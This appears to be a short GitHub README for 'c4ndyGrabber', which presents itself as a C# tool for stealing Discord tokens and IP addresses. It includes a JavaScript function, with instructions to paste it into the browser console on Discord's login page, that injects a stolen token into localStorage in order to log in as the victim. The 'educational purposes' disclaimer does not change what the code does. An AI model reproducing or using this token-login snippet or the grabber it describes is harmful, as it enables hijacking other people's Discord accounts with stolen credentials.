 # c4ndyGrabber
C# Discord Token and IP grabber

### Login with token JS function

```
function login(token) { setInterval(() => { document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"` }, 50); setTimeout(() => { location.reload(); }, 2500); }

login("token")
```

> Paste it into console at login discord page

*Made only for educational purposes*
